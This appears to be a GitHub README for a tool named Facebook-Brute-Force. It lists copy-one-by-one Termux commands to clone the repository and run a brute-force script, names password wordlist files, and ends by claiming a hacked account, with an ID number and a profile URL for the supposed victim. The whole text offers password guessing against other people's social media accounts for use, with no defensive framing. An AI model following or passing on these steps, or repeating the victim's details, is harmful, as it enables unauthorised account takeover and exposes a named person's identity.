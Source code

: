 # Facebook-Brute-Force


Please copy one by one


1. pkg install python


2. pip install requests


3. git clone https://github.com/AMH-HC/Facebook-Brute-Force


4. ls


5. cd Facebook-Brute-Force


6. pip install -r primo-pip-reqs.txt


7. python brute-force.py -h

8. clear

9. python brute-force.py

==============
AMH FACEBOOK-BRUTE-FORCE 2021
================
https://github.com/AMH-HC/Facebook-Brute-Force

1.Wallering16
   
   passwords-2.txt 
  
   passwords-3.txt

   passwords-4.txt

2. Hacked => account => 14066478111/ https://www.facebook.com/dana.kay.967
